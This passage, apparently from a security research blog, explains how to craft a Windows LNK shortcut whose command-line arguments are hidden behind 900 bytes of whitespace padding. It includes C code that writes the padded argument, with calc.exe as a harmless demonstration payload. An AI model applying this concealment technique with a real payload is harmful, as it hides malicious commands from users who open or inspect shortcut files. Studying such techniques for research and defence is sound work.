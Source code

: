 ```c
```

Following are the example:

![4](https://raw.githubusercontent.com/nafiez/nlabs.github.io/master/images/p4.png)

Now its padding time. The `COMMAND_LINE_ARGUMENTS` is an optional structure that stores the command-line arguments that are specified when activating the link target (I repeat this again!). Since we have enable the flag `HasArguments` in `LinkFlags`, we could write a simple padding by filling 900-bytes of whitespace characters (0x20, Space). Then we copy the padding and add our payload variable `calcCmd` into the `cmdLineBuffer + fillBytes`. In this case, I don't see any issue with padding sizes (at least on my test) and you can put as much as padding bytes you need. It will just increase the size of the LNK :) 
```c
	  const char* calcCmd = "/c C:\\Windows\\System32\\calc.exe";

    char cmdLineBuffer[1024] = { 0 };

    int cmdLen = strlen(calcCmd);
    int fillBytes = 900 - cmdLen;
    memset(cmdLineBuffer, 0x20, fillBytes);

    strcpy(cmdLineBuffer + fillBytes, calcCmd);
    cmdLineBuffer[900] = '\0';

    WORD cmdArgLen = (WORD)strlen(cmdLineBuffer);
    if (!WriteFile(hFile, &cmdArgLen, sizeof(WORD), &bytesWritten, NULL)) {
        printf("Failed to write cmd length: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }

    int wideCmdBufSize = MultiByteToWideChar(CP_ACP, 0, cmdLineBuffer, -1, NULL, 0);
    WCHAR* wideCmd = (WCHAR*)malloc(wideCmdBufSize * sizeof(WCHAR));
    if (!wideCmd) {
        printf("Memory allocation failed\n");
        CloseHandle(hFile);
        return 1;
    }

    MultiByteToWideChar(CP_ACP, 0, cmdLineBuffer, -1, wideCmd, wideCmdBufSize);

    if (!WriteFile(hFile, wideCmd, cmdArgLen * sizeof(WCHAR), &bytesWritten, NULL)) {
        printf("Failed to write cmd: %lu\n", GetLastError());
        free(wideCmd);
        CloseHandle(hFile);
        return 1;
    }
    free(wideCmd);
```
